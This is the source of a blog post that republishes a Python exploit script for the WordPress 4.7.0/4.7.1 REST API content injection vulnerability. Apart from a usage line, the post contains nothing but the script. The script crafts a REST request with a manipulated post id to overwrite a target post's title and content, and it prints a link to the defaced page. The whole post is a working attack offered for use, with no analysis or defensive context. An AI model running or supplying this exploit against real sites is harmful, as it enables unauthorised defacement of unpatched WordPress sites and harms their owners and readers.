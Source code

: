 ```yaml
---
layout: post
title: Wordpress Content Injection Exploit ver. 4.7.0
date: 2022-02-16 15:47
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":1816,"width":553,"height":311,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2022/02/wordpress.jpg?w=778" alt="" class="wp-image-1816" width="553" height="311" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted">Usage: wp-content-injection.py --url http://127.0.0.1/wordpress/index.php/wp-json/wp/v2/posts/6 --title "test_icindir" --content "dikkat! lütfen pacth gecininiz...</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted"># wp-content-injection.py
# Exploit Title: WP Content Injection Exploit
# Date: 02-02-2017
# Exploit Author: Rony Das
# Vendor Homepage: https://wordpress.org/
# Software Link: https://wordpress.org/download/release-archive/
# Version: Wordpress 4.7.0 &amp; 4.7.1
# Tested on: BackBox - Ubuntu Based
# Founded by: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
import json
import requests
import optparse
import sys
from urlparse import urlparse
import time
script = sys.argv[0]
def getPid(url):
    l = url.split('/')
    getpid = l[l.index('posts') + 1]
    return getpid

def getDomain(url):
    parsed_uri = urlparse(url)
    domain = '{uri.scheme}://{uri.netloc}/'.format(uri=parsed_uri)
    return domain

def banner():
    return """
********************************************************
* _    _______      ______ _____ _____ _____    _____  *
*| |  | | ___ \     | ___ \  _  /  ___|_   _|  |_   _| *
*| |  | | |_/ /_____| |_/ / | | \ `--.  | |______| |   *
*| |/\| |  __/______|  __/| | | |`--. \ | |______| |   *
*\  /\  / |         | |   \ \_/ /\__/ / | |     _| |_  *
* \/  \/\_|         \_|    \___/\____/  \_/     \___/  *
*                                                      *
********************************************************
Greetz:~ Dipendra,Kirit dada &lt;3, Abk Khan, Mukarram Khalid, Ahmed Raza
"""

def main():
    parser = optparse.OptionParser("Usage: "+script+" -u &lt;URL&gt; --title \"&lt;PAGE_TITLE&gt;\" --content \"&lt;PAGE_CONTENT&gt;\"")
    parser.add_option("-u", "--url", dest="URL", type="string", help="Specify the URL")
    parser.add_option("-t", "--title", dest="TITLE", type="string", help="Specify the Page Title")
    parser.add_option("-c", "--content", dest="CONTENT", type="string", help="Specify the Page Content")
    (options, args) = parser.parse_args()
    url     = options.URL
    title   = options.TITLE
    content = options.CONTENT
    data = {"id" : ""+str(getPid(url))+"textappendshere", "title" : ""+title+"", "content" : ""+content+""}
    headers = {'Content-Type': "application/json; charset=xxxe", 'Accept': "application/json"}
    res = requests.post(url, data=json.dumps(data), headers=headers)
    resp = res.status_code
    print banner()
    print "Status Code: "+str(resp)
    print time.sleep(2)
    if str(resp) == "200":
        print "Yay!"
        print "[+] Exploiting .. "
        print "[+] check the post.."
        print "[+] "+getDomain(url)+"?p="+getPid(url)
    else:
        print "May be not vulnerable?"
if __name__ == '__main__':
    try:
        main()
    except KeyboardInterrupt:
        print "[-] User stooped the script."
        sys.exit(0)
    except:
        pass</pre>
<!-- /wp:preformatted -->
